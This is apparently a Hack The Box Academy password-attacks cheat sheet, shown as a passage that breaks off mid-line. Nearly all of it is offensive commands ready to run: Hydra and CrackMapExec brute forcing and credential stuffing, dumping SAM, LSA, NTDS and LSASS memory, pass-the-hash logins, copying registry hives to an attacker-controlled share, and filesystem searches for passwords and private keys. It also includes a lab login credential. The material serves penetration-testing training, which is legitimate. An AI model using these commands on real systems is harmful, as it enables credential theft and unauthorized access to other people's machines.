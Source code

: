 # Password Attacks

# CHEAT SHEET

## Connecting to Target

### Command Description
- [**xfreerdp /v:<ip> /u:htbstudent /p:HTB_@cademy_stdnt!**](#): CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.
- [**evil-winrm -i <ip> -u user -p password**](#): Uses Evil-WinRM to establish a PowerShell session with a target.
- [**ssh user@<ip>**](#): Uses SSH to connect to a target using a specified user.
- [**smbclient -U user \\\\<ip>\\SHARENAME**](#): Uses smbclient to connect to an SMB share using a specified user.
- [**python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/**](#): Uses smbserver.py to create a share on a Linux-based attack host. Useful for transferring files from a target to an attack host.

## Password Mutations

### Command Description
- [**cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist**](#): Uses cewl to generate a wordlist based on keywords present on a website.
- [**hashcat --force password.list -r custom.rule --stdout > mut_password.list**](#): Uses Hashcat to generate a rule-based word list.

## PASSWORD ATTACKS CHEAT SHEET

### Command Description
- [**./username-anarchy -i /path/to/listoffirstandlastnames.txt**](#): Uses username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential usernames.
- [**curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt**](#): Uses Linux-based commands curl, awk, grep, and tee to download a list of file extensions to be used in searching for files that could contain passwords.

## Remote Password Attacks

### Command Description
- [**crackmapexec winrm <ip> -u user.list -p password.list**](#): Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified on a target.
- [**crackmapexec smb <ip> -u "user" -p "password" --shares**](#): Uses CrackMapExec to enumerate SMB shares on a target using a specified set of credentials.
- [**hydra -L user.list -P password.list <service>://<ip>**](#): Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service.
- [**hydra -l username -P password.list <service>://<ip>**](#): Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service.
- [**hydra -L user.list -p password <service>://<ip>**](#): Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service.
- [**hydra -C <user_pass.list> ssh://<ip>**](#): Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack.
- [**crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam**](#): Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network.
- [**crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa**](#): Uses CrackMapExec in conjunction with admin credentials to dump LSA secrets over the network. It is possible to get cleartext credentials this way.
- [**crackmapexec smb <ip> -u <username> -p <password> --ntds**](#): Uses CrackMapExec in conjunction with admin credentials to dump hashes from the NTDS file over a network.
- [**evil-winrm -i <ip> -u Administrator -H "<passwordhash>"**](#): Uses Evil-WinRM to establish a PowerShell session with a Windows target using a user and password hash. This is one type of Pass-The-Hash attack.

## Windows Local Password Attacks

### Command Description
- [**tasklist /svc**](#): A command-line-based utility in Windows used to list running processes.
- [**findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml**](#): Uses Windows command-line-based utility findstr to search for the string "password" in many different file types.
- [**Get-Process lsass**](#): A PowerShell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line.
- [**rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full**](#): Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials.
- [**pypykatz lsa minidump /path/to/lsassdumpfile**](#): Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file.
- [**reg.exe save hklm\sam C:\sam.save**](#): Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system).
- [**move sam.save \\\\<ip>\\NameofFileShare**](#): Uses move in Windows to transfer a file to a specified file share over the network.
- [**python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL**](#): Uses Secretsdump.py to dump password hashes from the SAM database.
- [**vssadmin CREATE SHADOW /For=C:**](#): Uses Windows command-line-based tool vssadmin to create a volume shadow copy for C:. This can be used to make a copy of NTDS.dit safely.
- [**cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit**](#): Uses Windows command-line-based tool copy to create a copy of NTDS.dit for a volume shadow copy of C:.

## Linux Local Password Attacks

### Command Description
- [**for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done**](#): Script that can be used to find .conf, .config and .cnf files on a Linux system.
- [**for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "\#";done**](#): Script that can be used to find credentials in specified file types.
- [**for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done**](#): Script that can be used to find common database files.
- [**find /home/* -type f -name "*.txt" -o ! -name "*.*"**](#): Uses Linux-based find command to search for text files.
- [**for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share";done**](#): Script that can be used to search for common file types used with scripts.
- [**for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib|fonts|share|core" ;done**](#): Script used to look for common types of documents.
- [**cat /etc/crontab**](#): Uses Linux-based cat command to view the contents of crontab in search for credentials.
- [**ls -la /etc/cron.*/**](#): Uses Linux-based ls -la command to list all files that start with cron contained in the etc directory.
- [**grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"**](#): Uses Linux-based command grep to search the file system for key terms PRIVATE
